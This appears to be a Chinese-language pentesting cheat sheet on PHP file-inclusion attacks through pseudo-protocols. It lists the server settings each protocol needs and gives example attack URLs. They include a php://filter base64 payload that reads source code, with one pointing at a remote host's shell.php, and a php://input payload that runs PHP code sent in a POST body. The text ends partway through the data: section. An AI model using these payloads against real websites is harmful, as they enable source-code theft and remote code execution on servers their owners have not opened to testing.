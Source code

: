 ```
```

### 文件包含+伪协议

```
php://filter
php://input
data:text/plain
zip://伪协议
file://伪协议
Phar协议 待定
```

#### php://filter

​		**利用条件**

```
这里只是文件读取                                           
只需要allow_url_fopen=On                             
对allow_url_include不做要求
利用这种方式可以读取网站源码
```

​		**如何利用**

```
将文件中的内容进行base64后输出              
例如:
	http://localhost/diy/fileinclude/includeTest.php?page=php://filter/read=convert.base64-encode/resource=http://192.168.1.12:8095/shell.php
```

#### php://input

​		**利用条件**

```
只需开启 allow_url_include                                                         
对allow_url_fopen不做要求 
```

​		**如何利用**

```
php://input 参数放在get请求文件包含参数对应的值中，具体的执行代码放在post请求体中                                                  例如：
	www.xx.com/include.php?file=php://input                        
	post请求体中存放需要执行的代码
```

#### data:text/plain

​		**利用条件**

```
allow_url_fopen=On          
allow_url_include=On 
```
